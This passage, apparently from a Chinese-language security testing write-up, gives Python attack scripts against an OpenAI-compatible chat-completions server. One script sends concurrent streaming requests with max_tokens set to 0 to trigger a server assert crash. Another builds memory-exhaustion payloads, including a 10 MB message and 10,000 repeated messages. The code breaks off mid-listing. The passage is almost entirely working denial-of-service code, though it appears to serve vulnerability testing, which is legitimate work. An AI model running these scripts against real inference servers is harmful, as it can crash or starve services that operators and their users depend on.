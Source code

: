 ## 4. 高级攻击技术

### 4.1 竞态条件攻击
```python
import threading
import time

def race_condition_attack():
    """利用竞态条件触发assert"""
    def send_request(thread_id):
        payload = {
            "model": "gpt-3.5-turbo",
            "messages": [{"role": "user", "content": f"Thread {thread_id}"}],
            "logprobs": True,
            "top_logprobs": 1,
            "max_tokens": 0,  # 可能触发assert
            "stream": True
        }
        
        try:
            response = requests.post("http://localhost:8000/v1/chat/completions", 
                                   json=payload, stream=True)
            if response.status_code == 500:
                print(f"Thread {thread_id}: Potential assert triggered!")
        except Exception as e:
            print(f"Thread {thread_id}: {e}")
    
    # 同时启动多个线程
    threads = []
    for i in range(20):
        t = threading.Thread(target=send_request, args=(i,))
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

### 4.2 内存耗尽攻击
```python
def memory_exhaustion_attack():
    """通过各种方式耗尽服务器内存"""
    attacks = [
        {
            "name": "Large message content",
            "payload": {
                "model": "gpt-3.5-turbo",
                "messages": [{"role": "user", "content": "A" * 10000000}],  # 10MB
                "max_tokens": 1000
            }
        },
        {
            "name": "Many messages",
            "payload": {
                "model": "gpt-3.5-turbo", 
                "messages": [{"role": "user", "content": "test"}] * 10000,
                "max_tokens": 1
            }
        },
        {
            "name": "Large tool definitions",
            "payload": {
                "model": "gpt-3.5-turbo",
```